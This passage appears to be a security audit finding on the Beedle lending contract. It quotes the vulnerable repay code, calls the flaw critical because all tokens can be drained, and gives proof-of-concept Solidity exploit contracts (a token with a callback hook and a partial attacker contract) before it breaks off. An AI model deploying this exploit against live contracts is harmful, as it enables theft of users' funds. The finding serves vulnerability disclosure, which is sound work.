 ```solidity
            emit Repaid(
                msg.sender,
                loan.lender,
                loanId,
                loan.debt,
                loan.collateral,
                loan.interestRate,
                loan.startTimestamp
            );
            // delete the loan
            delete loans[loanId];
        }
```
https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L317


## Impact
All tokens can be drained from the contract. This is a critical vulnerability.
### POC
An attacker can use the following exploit contracts to drain the `lender` contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract ExploitToken is ERC20 {
    address owner;
    constructor(uint256 amount) ERC20("ExploitToken", "ET") {
        owner = msg.sender;
        _mint(msg.sender, amount);
    }

    // Hook on token transfer
    function _afterTokenTransfer(address from, address to, uint256 amount) internal override {
        (bool status,) = owner.call(abi.encodeWithSignature("tokensReceived(address,address,uint256)", from, to, amount));
        require(status, "call failed");
    }
}
```

```solidity
File: Exploit7.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {ExploitToken} from "./ExploitToken.sol";
import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "../utils/Structs.sol";
import "../Lender.sol";

contract Exploit7  {
    Lender lender;
    address collateralToken;
    ExploitToken exploitToken;
    bool loanBorrowed;
    uint256 i;

    constructor(Lender _lender, address _collateralToken) {
        lender = _lender;
```